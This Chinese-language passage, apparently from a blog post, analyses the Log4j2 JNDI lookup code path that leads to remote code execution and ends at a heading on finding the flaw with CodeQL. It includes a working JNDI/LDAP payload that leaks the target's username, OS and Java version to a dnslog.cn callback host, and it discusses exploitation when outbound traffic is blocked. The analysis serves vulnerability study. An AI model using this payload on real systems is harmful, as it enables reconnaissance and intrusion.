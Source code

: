 ![image-20211222150445643](https://cdn.jsdelivr.net/gh/SummerSec/Images//45u445ec45u445ec.png)



resolver中有一个strLookupMap，可以发现执行各种协议，以及自定义的lookup方法。

![image-20211222151238735](https://cdn.jsdelivr.net/gh/SummerSec/Images//38u1238ec38u1238ec.png)

进入lookup方法到\org\apache\logging\log4j\core\lookup\Interpolator.class#lookup方法，首先会判断**env:OS**字符串的前缀长度env。

![image-20211222151902111](https://cdn.jsdelivr.net/gh/SummerSec/Images//2u192ec2u192ec.png)



Map会获取对应的lookup类，如果是env就是EnvironmentLookup类，JNDI就是JndiLookup，最终会调用对应方法，

![image-20211222152008815](https://cdn.jsdelivr.net/gh/SummerSec/Images//9u209ec9u209ec.png)



JNDilookup类会调用jndiManager#lookup方法，

![image-20211222152719317](https://cdn.jsdelivr.net/gh/SummerSec/Images//19u2719ec19u2719ec.png)



最终调用的是下面的lookup方法导致JNDI的RCE，Context类型是java.naming.context。Context类在jdk也是发起JNDI请求**"漏洞"**类。

```java
    public <T> T lookup(String name) throws NamingException {
        return this.context.lookup(name);
    }
```



---

### 实战环境中漏洞利用可能性

首先确定用户名、操作系统以及Java的版本

```java
${jndi:ldap://${env:USERNAME}.${env:OS}.${sys:java.version}.dnslog.cn}
```

其次可能存在的问题不出网本质就是和jndi不出网一样。如果单纯的是http不出网，还能有本地classpath中存在反序列化漏洞组件去打，

如果ldap都不出网就gg。下图是log4j漏洞利用示例图，有点遗憾的是缺少一点本地反序列化流程。

![image-20211222174953272](https://cdn.jsdelivr.net/gh/SummerSec/Images//53u4953ec53u4953ec.png)



---



## CodeQL 发现log4j2漏洞
